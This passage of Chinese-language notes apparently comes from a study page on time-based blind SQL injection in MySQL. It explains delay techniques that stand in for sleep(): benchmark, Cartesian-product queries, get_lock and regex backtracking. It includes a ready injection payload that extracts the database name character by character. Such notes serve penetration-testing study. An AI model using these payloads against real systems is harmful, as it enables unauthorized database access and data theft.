 ```
sleep(5*(condition))
```

如果condition为真则返回1，5_(condition)即5_1为5，延时5秒；如果condition为假则返回0，5_(condition)即5_0为0，延时0秒。

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335855-923cb02a-7ab7-4418-b799-f364149e26d2.png#id=pZBy5&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

### benchmark

是替代sleep的首选。

用法：benchmark(执行多少次，执行什么操作)

### ![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335976-34496dc7-fae3-4382-97df-d32ae1cd8ac3.png#id=XgmhI&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)  笛卡尔积

```python
SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;
admin' and if(ascii(substr((select database()),1,1))>1,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)#
```

### get_lock

```python
mysql> select get_lock('ddog',1);
+---------------------+
| get_lock('ddog',1) |
+---------------------+
|                   1 |
+---------------------+
1 row in set (0.00 sec)

 换新的session

mysql> select get_lock('ddog',5);
+---------------------+
| get_lock('ddog',5) |
+---------------------+
|                   0 |
+---------------------+
1 row in set (5.00 sec)
```

### 正则bug

正则匹配在匹配较长字符串但自由度比较高的字符串时，会造成比较大的计算量，我们通过rpad或repeat构造长字符串，加以计算量大的pattern，通过控制字符串长度我们可以控制延时。

```python
mysql> select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
+-------------------------------------------------------------+
| rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b') |
+-------------------------------------------------------------+
|                                                           0 |
+-------------------------------------------------------------+
1 row in set (5.22 sec)
```
